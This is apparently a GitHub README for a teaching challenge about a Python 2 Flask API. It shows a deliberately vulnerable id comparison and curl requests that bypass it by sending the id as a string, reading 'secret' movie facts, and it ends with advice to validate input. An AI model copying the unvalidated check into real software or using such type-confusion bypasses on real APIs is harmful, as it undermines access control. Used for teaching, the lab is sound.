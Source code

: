 # Simple Server side exploitation: Exploit server to get Avenger's endgame secrets.
- In this example we show how not validating user input can exploited
- First lets start the api server by running the command below, also make sure you have flask installed
```bash
python2 app.py
```
### Challenge:
 - A `python2` flask server has an api endpoint `/endgame` which you can post the following `'{"id" : id}'` to get facts about the upcoming avengers endgame movie, the problem is that you can not read the first 2 facts as they are secrets only the movier directors know. Below is a section of the code that make sures you do not read the first 2 secrets.
```python
# request.user is the posted id
data = request.json
id=data['id']
if id>2:
    # endgame_details is an array containing the facts, you are not supposed to read the first 2 facts
    res={"endgame fact":endgame_details[int(id)-1]}
    return jsonify(res)
else:
    res={"error":"Wait for the movie"}
    return jsonify(res)
```
- Using curl to interact with the api we get
```bash
┌─[n1ght0wl@not-giving-a-fuck]─[~/Documents/presentations/thursday_speaker_9th_jan_19]
└──╼ $curl -X POST -H "Content-Type: application/json"  http://127.0.0.1:5000/endgame --data '{"id":1}'
{
  "error": "Wait for the movie"
}
┌─[n1ght0wl@not-giving-a-fuck]─[~/Documents/presentations/thursday_speaker_9th_jan_19]
└──╼ $curl -X POST -H "Content-Type: application/json"  http://127.0.0.1:5000/endgame --data '{"id":3}'
{
  "endgame fact": "Part of the journey is the end"
}
```
### Solution
- solution lies with how python2 compares variables, see below
```python
Python 2.7.15+ (default, Aug 31 2018, 11:56:52) 
[GCC 8.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 
>>> 1>2
False
>>> "1">2
True
>>> 
```
- Notice that python2 evaluates `"1">2` as `True` meaning in the endgame's api if we post a string it will alway evaluate that `id>2`
```bash
┌─[n1ght0wl@not-giving-a-fuck]─[~/Documents/presentations/thursday_speaker_9th_jan_19]
└──╼ $curl -X POST -H "Content-Type: application/json"  http://127.0.0.1:5000/endgame --data '{"id":"1"}'
{
  "endgame fact": "All Avengers are going to die"
}
```
- Notice we are now able to read the movie director's secret from the api.

## How to mitigate this
- **Always validate** User input before processing, especially when working with json which supports multiple types.